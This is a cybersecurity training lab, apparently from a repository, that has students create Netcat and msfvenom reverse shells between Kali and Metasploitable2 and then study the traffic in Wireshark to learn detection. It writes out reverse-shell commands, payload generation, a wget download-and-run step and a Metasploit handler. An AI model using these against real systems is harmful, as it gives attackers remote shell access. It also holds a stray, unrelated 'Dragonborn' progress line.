









# Lab 3 — Reverse Shell Network Detection Study

## Lab Overview

**Purpose:** Generate reverse shells using two different methods, capture the resulting traffic in Wireshark, and learn to identify the network-level fingerprints of shell activity — without relying on any signature, log, or alert. This is a skill gap most junior analysts have: they can read a SIEM dashboard, but freeze when handed a raw packet capture.

**Why this matters in real SOC work:** Reverse shells are the backbone of remote access in real intrusions — almost every hands-on-keyboard compromise, from opportunistic malware to targeted APT activity, involves some form of shell being called back to attacker infrastructure. Signature-based tools (antivirus, IDS rulesets) are routinely evaded by trivial payload changes, but the *behavioral* indicators this lab teaches — direction of connection, non-standard ports, interactive packet timing — are far harder for an attacker to hide, because they're a consequence of what a reverse shell fundamentally *is*, not how it happens to be built. Being comfortable in Wireshark, rather than only in a SIEM's UI, is what separates analysts who can work a genuinely novel incident from those who can only follow a runbook.

**What you'll learn:**
- Why a reverse shell's *direction* of connection is itself a red flag, independent of payload content
- How to reconstruct a full interactive shell session from a packet capture (`Follow TCP Stream`)
- What interactive shell traffic looks like at the packet-timing level, versus a file transfer or a web request
- Why this kind of activity is invisible to host log analysis (a theme Lab 7 goes deeper on)

**Attack technique:** Two reverse shell delivery methods — a raw Netcat shell, and a Metasploit/`msfvenom`-generated payload with a matching listener.

**Tools used:**

| Tool | Role | Runs on |
|---|---|---|
| Netcat | Simple reverse shell (method 1) | Both Kali and Metasploitable2 |
| msfvenom / Metasploit | Payload-generated reverse shell (method 2) | Kali |
| Wireshark | Packet capture and analysis | Kali |

## Architecture for This Lab



Note the direction: the **victim** initiates the outbound connection **to** the attacker. This is the opposite of almost all normal traffic patterns (clients connecting to servers), and it's the single biggest network-level tell a reverse shell leaves behind.

---

## Part 1 — Verify Netcat on Both Machines

Netcat comes in different flavors with different capabilities — specifically, whether the `-e` flag (execute a program and pipe its I/O over the connection, which is how a raw Netcat reverse shell works) is supported. Check both ends before relying on it.

**On Metasploitable2** (`ssh metasploitable`):

```bash
which nc
nc -h 2>&1 | head -15
```

Look for `-e` in the output. Metasploitable2 ships the classic "traditional" Netcat, which supports it — you should see it listed.

**On Kali:**

```bash
which nc
nc -h 2>&1 | head -15
```

Kali's default `nc` is often `ncat` (Nmap's Netcat rewrite) or `netcat-openbsd`, and **neither supports `-e` by default** for security reasons. This doesn't block us — Kali is only acting as the **listener** in this lab, and listening never requires `-e`. Only the machine *sending* the shell (Metasploitable2) needs it.



---

## Part 2 — Verify Wireshark on Kali

Wireshark ships with Kali by default. Confirm:

```bash
which wireshark
wireshark --version | head -3
```

You'll run it with `sudo` for live capture permissions unless your user is already in the `wireshark`/`pcap` group:

```bash
sudo wireshark
```

If Wireshark's GUI window doesn't render properly over your VM console, an alternative is capturing via command line with `tcpdump` and opening the resulting file in Wireshark afterward — mentioned in Troubleshooting if you hit this.



---

## Part 3 — Method 1: Raw Netcat Reverse Shell

### 3.1 Start the Listener on Kali

```bash
nc -lvnp 4444
```

- `-l` — listen mode
- `-v` — verbose (prints connection info when something connects)
- `-n` — skip DNS resolution
- `-p 4444` — listen on port 4444

Leave this running in its own terminal tab.

### 3.2 Start Wireshark Capture

Open a **second** Kali terminal tab (or the Wireshark GUI directly):

```bash
sudo wireshark
```

1. Select interface **eth0**
2. In the capture filter box (before starting), type: `host 192.168.56.103`
3. Click the blue shark-fin **Start** button



### 3.3 Trigger the Reverse Shell from Metasploitable2

In a **third** terminal, SSH into Metasploitable2 and run:

```bash
ssh metasploitable
nc -e /bin/bash 192.168.56.101 4444
```

Switch back to your Kali listener tab (Part 3.1) — you should see a connection announcement, and you're now sitting at a live shell on Metasploitable2.

### 3.4 Generate Some Shell Activity

While connected, run a few ordinary commands to produce realistic traffic to analyze afterward:

```bash
whoami
id
ls -la /home
cat /etc/passwd
```



### 3.5 Stop the Capture

Back in Wireshark, click the red **Stop** button once you've run a few commands. Save the capture:

**File → Save As** → `lab3-netcat-shell.pcapng` (save it somewhere you'll remember — you'll reference it in your write-up).

---

## Part 4 — Analyze the Netcat Shell Capture

### 4.1 Isolate the Shell Traffic

In Wireshark's display filter bar (not the capture filter — that's a different box, right below the toolbar):

```
tcp.port == 4444
```

Press Enter. You should see a clean TCP stream: a handshake (`SYN`, `SYN-ACK`, `ACK`), followed by a long series of small packets.

### 4.2 Reconstruct the Session

Right-click any packet in that stream → **Follow → TCP Stream**. A new window opens showing the entire session's data — including your `whoami`, `id`, `ls`, and `cat /etc/passwd` commands and their output, **in plaintext**. This is the single clearest piece of evidence that this is a shell: no encryption, full command/response visible to anyone capturing the traffic.



### 4.3 Identify the Network-Level Indicators

Close the stream window. Look at the filtered packet list and note:

1. **Connection direction:** the `SYN` packet's source is `192.168.56.103` (Metasploitable2) → destination `192.168.56.101` (Kali). The "server" is calling out to the "client" — backwards from nearly all legitimate traffic.
2. **Port choice:** `4444` is not a registered service port. On a real network, any outbound connection from a server to an unusual high port is worth a second look on its own.
3. **Packet timing/size:** click **Statistics → Conversations**, select the TCP tab, and look at the packet count vs. duration for this stream. Interactive shell traffic produces many small packets spread over the session's whole duration (one packet roughly per keystroke/response), unlike a file transfer (few packets, large, front-loaded) or a normal web request (a handful of packets, done in under a second).



---

## Part 5 — Method 2: Metasploit Payload Reverse Shell

Now repeat the exercise with a Metasploit-generated payload, to compare against the raw Netcat version.

### 5.1 Generate the Payload on Kali

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.101 LPORT=4445 -f elf -o shell.elf
```

### 5.2 Host It for Delivery

```bash
python3 -m http.server 8000
```

Leave this running in its own tab.

### 5.3 Download and Run It on Metasploitable2

In another terminal:

```bash
ssh metasploitable
wget http://192.168.56.101:8000/shell.elf
chmod +x shell.elf
```

### 5.4 Start the Matching Listener on Kali

Before running the payload, set up Metasploit's handler (a purpose-built listener that understands this payload type):

```bash
msfconsole -q
use exploit/multi/handler
set payload linux/x86/shell_reverse_tcp
set LHOST 192.168.56.101
set LPORT 4445
run
```

### 5.5 Start a Fresh Wireshark Capture

Same as Part 3.2 — new capture, filter `host 192.168.56.103`, **Start**.

### 5.6 Execute the Payload on Metasploitable2

Back in your Metasploitable2 terminal:

```bash
./shell.elf
```

Your `msfconsole` handler should show a new session opening.



Run a couple of commands in this session too (`whoami`, `id`), then stop and save this Wireshark capture as `lab3-msfvenom-shell.pcapng`.

### 5.7 Compare the Two Captures

Filter this new capture to `tcp.port == 4445` and Follow TCP Stream, same as Part 4.2.

**What to look for in your write-up:** is the underlying network behavior actually any different from the raw Netcat version? (Spoiler: no — same direction anomaly, same small-packet interactive timing, same plaintext reconstruction. The delivery mechanism differed; the network fingerprint of "a shell is running" didn't.) This is an important, slightly uncomfortable lesson: sophisticated payload generation tools don't inherently produce sneakier *network* traffic — the evasion techniques that matter here operate at a different layer (encryption, protocol mimicry, timing jitter) than what `msfvenom`'s basic payload changes.



---

## Part 6 — Note the Detection Gap (Preview of Lab 7)

Quick but important observation to record for your write-up: check whether either of these reverse shells produced **any** entry in `/var/log/auth.log` on Metasploitable2:

```bash
ssh metasploitable
sudo tail -20 /var/log/auth.log
```

They won't — a reverse shell isn't a login event, so it's invisible to exactly the kind of log-based detection Lab 1 built. This is deliberate: **Lab 7 (Exploitation Visibility Analysis)** dedicates a full lab to this exact gap between "what logs capture" and "what's actually happening on the network." For now, just note it in your write-up as an observed limitation.

---

## Part 7 — Document the Finding

Standalone files, same pattern as prior labs:

- [`Lab3-Investigation-Writeup-Template.docx`](./Lab3-Investigation-Writeup-Template.docx) — the clean, fillable Word document.
- [`WRITEUP-TEMPLATE.md`](./WRITEUP-TEMPLATE.md) — a guide explaining exactly where in this lab to find the information each field is asking for.


---

**BLOCK INCREASED TO 97!:** Stand proud Dragonborn, you have successfully mapped the attacker's persistence mechanisms. To your next quest!.

---


## Troubleshooting

- **`nc -e` on Metasploitable2 says "invalid option":** confirm you're not accidentally running Kali's `nc` over an SSH session in a way that shadows it — run `which nc` right before the command to double check you're using Metasploitable2's own binary, not something inherited from your SSH client environment.
- **Wireshark GUI doesn't render properly over the VMware console:** capture headlessly instead, then analyze the file afterward:
  ```bash
  sudo tcpdump -i eth0 host 192.168.56.103 -w lab3-capture.pcap
  ```
  Press `Ctrl+C` to stop, then open the resulting `.pcap` file in Wireshark (`wireshark lab3-capture.pcap`) for analysis.
- **Metasploit handler shows no session after running `shell.elf`:** double-check `LHOST`/`LPORT` in the handler exactly match what you compiled into the payload with `msfvenom`, and confirm Metasploitable2's firewall isn't blocking outbound (unlikely on this lab network, but check `sudo iptables -L OUTPUT -v -n` if stuck — note this is a different chain than the `INPUT` rule from Lab 2).
- **`wget` fails on Metasploitable2:** confirm your `python3 -m http.server` is still running on Kali and that you used Kali's correct IP (`192.168.56.101`), not `localhost`.
